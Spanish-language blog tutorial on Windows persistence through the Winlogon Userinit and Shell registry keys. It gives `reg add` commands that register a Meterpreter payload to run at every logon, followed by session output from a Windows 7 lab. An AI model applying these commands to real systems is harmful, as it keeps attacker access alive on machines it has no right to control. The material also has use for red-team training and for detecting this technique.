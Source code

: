 ```yaml
---
layout: post
title: Persistencia en Windows
subtitle: Persistencia en Windows
tags: [windows,winlogon]
---
```


## Winlogon

**WinLogon** es el proceso de administrar las aperturas y cierres de sesión, el lanzamiento y la detención de los protectores de pantalla, el bloqueo/desbloqueo de la estación de trabajoy la detención/reinicio de la máquina.

Por ejemplo, cuando se inicia sesión el proceso WinLogon es responsable de cargar su perfil de usuario en el registro. Por lo tanto cada cuenta de usuario de Windows depende de WinLogon para usar las claves de HKEY_CURRENT_USER, que es unica para cada usuario.

### Valores de clave predeterminado

Sus valores de registro se encuentran en HKEY_LOCAL_MACHINE.  
Podemos encontrarlo en la siguiente ruta abriendo ele ejecutable `regedit.exe`.

![reg](../assets/imgs/persistencia/reg.png)

Aqui entre muchas otras claves, vemos que tenemos claves llamadas `Userint` y `Shell` de tipo **REG_SZ**. Usaremos estas claves para ganar persistencia en la máquina.

### Persistencia usando Userinit Key

Como tenemos un shell de sistema, usamos el comando "reg query" para obtener información sobre la clave **Userinit** de WinLogon.

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

Añadimos nuestro ejecutable malicioso (meterpreter.exe).

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d "Userinit.exe, meterpreter.exe" /f
```

Realizamos la consulta nuevamente para verificar los cambios

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    userinit    REG_SZ    Userinit.exe, meterpreter.exe
```

![reg2](../assets/imgs/persistencia/reg2.png)


Ganando una shell


```
meterpreter > getuid
Server username: WIN7\win7bits
meterpreter > sysinfo
Computer        : WIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

### Persistencia usando Shell Key

Obtuvimos nuestra persistencia usando la clave Userinit. Ahora centremonos en otra clave que se puede utilizar para lograr la persistencia en la máquina destino. Es la clave Shell. De forma predeterminanda, contiene `explorer.exe` como se mostró en la imagen anterior.

modificamos los valores del registro similar al anterior y de esa forma tambien tendriamos un shell persistente

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, meterpreter.exe" /f
```
